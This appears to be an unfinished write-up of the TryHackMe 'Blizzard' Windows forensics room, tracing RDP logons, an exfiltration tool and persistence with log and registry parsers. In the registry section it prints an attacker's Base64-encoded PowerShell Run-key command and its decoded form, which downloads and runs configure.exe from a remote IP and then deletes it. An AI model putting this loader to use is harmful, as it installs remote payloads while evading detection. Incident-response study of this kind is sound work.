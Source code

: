 # Blizzard
**Description:** A critical alert was triggered from a sensitive server. You are tasked to perform a live investigation on multiple machines to determine the root cause of the incident.  
**Difficulty:** Medium  
**Link:** https://tryhackme.com/r/room/blizzard

## Task 1: Introduction: Analysing the Impact

Disclaimer: This is my first ever write-up and I am not an expert in the field of Windows forensics. While the answers are factually correct, there might be much more efficient ways to obtain them.

>When did the attacker access this machine from another internal machine? (format: MM/DD/YYYY HH:MM:SS)

We could probably answer this using the native Windows Event Viewer (`eventvwr.msc`), but let's instead make use of the tools provided in the room. First we run [Eric Zimmerman's](https://ericzimmerman.github.io/#!index.md) event log parser EvtxECmd.

```
C:\Tools\EvtxECmd\EvtxECmd.exe -f C:\Windows\System32\winevt\Logs\Security.evtx --inc 4624,4625 --csv .
```

![screenshot1](/Blizzard/assets/screenshot1.png)

We command the tool to read in the security log file at `C:\Windows\System32\winevt\Logs\Security.evtx`, exctract successful (Event ID 4624) and failed (4625) logons and write the data to a CSV file in the current folder.

![screenshot2](/Blizzard/assets/screenshot2.png)

Now we can finally have a look at the logs by opening the output file in Timeline Explorer (shortcut on the desktop). Scrolling through the data we notice the `Remote Host` column, which in some rows contains IP addresses. Before wasting any time manually going through a thousand rows of logs, we can use the task description to greatly narrow down our search:

>The IT team has also shared that the infected database server is set up for internal access only and is not yet linked to other systems

We can figure out which network the machine is connected to using ipconfig

![screenshot3](/Blizzard/assets/screenshot3.png)

Here some basic networking knowledge helps. An IPv4 address of `10.10.211.166` with a `255.255.0.0` subnet mask means we are on the `10.10.0.0/16` network, in other words: All hosts on the same, internal, network must start with `10.10.`.

By clicking below the `Remote Host` column heading in Timeline Explorer we create a filter `contains 10.10.` We also know from the task description that the data exfiltration was detected at time `03/24/2024 19:55:29`, so we can add another filter for the `Time Created` column, displaying only logs from the same day.

We have now narrowed it down to 146 rows of data. Ordering them by `Time Created`, adjusting the columns to display only relevant data, and focussing on the rows immediately before the incident was detected, we notice a logon `Type 3` for user `dbadmin` followed by a logon `Type 10` one second later. Some googling later I knew that `Type 3` stands for `Network` while `Type 10` denotes `RemoteInteractive` logons, most likely RDP ([Microsoft Docs](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc787567(v=ws.10))). 

![screenshot4](/Blizzard/assets/screenshot4.png)

Full disclosure: I still don't fully understand what is going on here, why there is one succesful `Type 3` logon at second `01` followed by an identical one less than a minute later and then ultimately a `Type 10`. As far as flags are concerned, I tried each of the three timestamps and then did some googling in an attempt to understand the correct answer. [One article I found](https://frsecure.com/blog/rdp-connection-event-logs/) points to event ID 1149 in the `TerminalServices-RemoteConnectionManager/Operational` log specifically for successful RDP logons. I wanted to confirm that, so I ran EvtxECmd again:

```
C:\Tools\EvtxECmd\EvtxECmd.exe -f C:\Windows\System32\winevt\Logs\Microsoft-Windows-TerminalServices-RemoteConnectionManager%4Operational.evtx --inc 1149 --csv .
```
![screenshot5](/Blizzard/assets/screenshot5.png)

Opened in Timeline Explorer we only have a couple of rows, with precisely one containing `dbadmin` and a `10.10.0.0/16` remote host. Probably not the cleanest method, but this timestamp, which matches the redacted one in the security event log above, is the one we are looking for.

![screenshot6](/Blizzard/assets/screenshot6.png)

>What is the full file path of the binary used by the attacker to exfiltrate data?

Amcache is a Windows artifact that among other things, stores information on executables that were executed on a system. Another one of Zimmerman's tools, AppCompatCacheParser, pulls the data for us and hands us a CSV file to work with.

```
C:\Tools\AppCompatCacheParser\AppCompatCacheParser.exe --csv .
```

![screenshot7](/Blizzard/assets/screenshot7.png)

Once we've opened the file in Timeline Explorer, filterer for `Executed=Yes`, sorted by `Cache Entry Position`, and arranged the columns for better visibility, we find the local PostgreSQL database [has been backed up](https://www.postgresql.org/docs/current/app-pgdump.html), followed by the execution of `######.exe` from `dbadmin`'s home directory.

![screenshot8](/Blizzard/assets/screenshot8.png)

If the name doesn't give it away already, let's Google the thing to be safe:

![screenshot9](/Blizzard/assets/screenshot9.png)

We found the culprit, next question.

>What email is used by the attacker to exfiltrate sensitive data?

This is probably part of the configuration data for the cloud backup tool found in the previous question. After a quick web search we are looking for `######.conf`. With the power of PowerShell:

```
Get-ChildItem -Path C:\Users\*######* -Force -Recurse -ErrorAction SilentlyContinue
```
we quickly find the file

![screenshot10](/Blizzard/assets/screenshot10.png)

and reveal its content

![screenshot11](/Blizzard/assets/screenshot11.png)

>Where did the attacker store a persistent implant in the registry? Provide the registry value name.

Two [keys contain programs](https://learn.microsoft.com/pl-pl/windows/win32/setupapi/run-and-runonce-registry-keys) that run every time a user logs on:

* HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run
* HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run

The file for the former is located at `C:\Windows\System32\config\SOFTWARE`, for the latter at `C:\Users\<USER>\NTUSER.DAT`. But we don't need to look for these files, which in a live system are locked by the OS, manually, since `Registry Explorer` imports them at the click of a button.

![screenshot12](/Blizzard/assets/screenshot12.png)

There we have it, this

![screenshot13](/Blizzard/assets/screenshot13.png)

```
powershell.exe -enc aQB3AHIAIAAtAHUAcwBlAGIAIABoAHQAdABwADoALwAvADEAMgA4AC4AMQA5ADkALgAyADQANwAuADEANwAzAC8AYwBvAG4AZgBpAGcAdQByAGUALgBlAHgAZQAgAC0AbwB1AHQAZgBpAGwAZQAgACQAZQBuAHYAOgBhAHAAcABkAGEAdABhAFwAYwBvAG4AZgBpAGcAdQByAGUALgBlAHgAZQA7ACAAUwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgACQAZQBuAHYAOgBhAHAAcABkAGEAdABhAFwAYwBvAG4AZgBpAGcAdQByAGUALgBlAHgAZQA7ACAAcgBtACAAJABlAG4AdgA6AGEAcABwAGQAYQB0AGEAXABjAG8AbgBmAGkAZwB1AHIAZQAuAGUAeABlAA==
```
is run every time a user logs in. The key's `Value Name` is the flag. The task doesn't ask for it, but the `-enc` option lets you feed Powershell with Base64 (crucial for decoding: using the UTF-16LE character set) encoded commands. This can be used in an attempt to evade detection as seen here. The decoded command

```
iwr -useb http://128.199.247.173/configure.exe -outfile $env:appdata\configure.exe; Start-Process $env:appdata\configure.exe; rm $env:appdata\configure.exe
```
downloads `configure.exe` from a remote host, executes it, and then deletes it again.

>Aside from the registry implant, another persistent implant is stored within the machine. When did the attacker implant the alternative backdoor? (format: MM/DD/YYYY HH:MM:SS)

I am sure there is a more efficient way (that's probably true for other things I did, as I'm new to Windows forensics), but after having ruled out Scheduled Tasks, I adapted a Powershell script from [another THM room](https://tryhackme.com/r/room/windowsapplications) to enumerate services

```powershell
$services = Get-Service | Where-Object {$_.StartType -eq "Automatic"}
foreach ($service in $services) {                                                        
    $serviceName = $service.Name                                                           
    $serviceWMI = (Get-WmiObject Win32_Service | Where-Object { $_.Name -eq $serviceName})      
    $servicePath = $serviceWMI.PathName
    Write-Host "Service Name: $serviceName"
    Write-Host "Executable Path: $servicePath"
    Write-Host "--------------------"
}
```
The code first retrieves all services that are configure to start automatically when the system starts, then prints relevant information on the screen for me to manually filter. The output only being a couple of dozen lines long, one service immediately stood out while the script was still running

![screenshot14](/Blizzard/assets/screenshot14.png)

Having found `CDPUserSvc_9286x` I now simply loaded the `SYSTEM` registry hive into Registry Explorer and searched for the service name.

![screenshot15](/Blizzard/assets/screenshot15.png)

Both search results come with identical `Last write` timestamps. That is when the service was created and with that, the answer to the last question of task 1.

Work in progress...
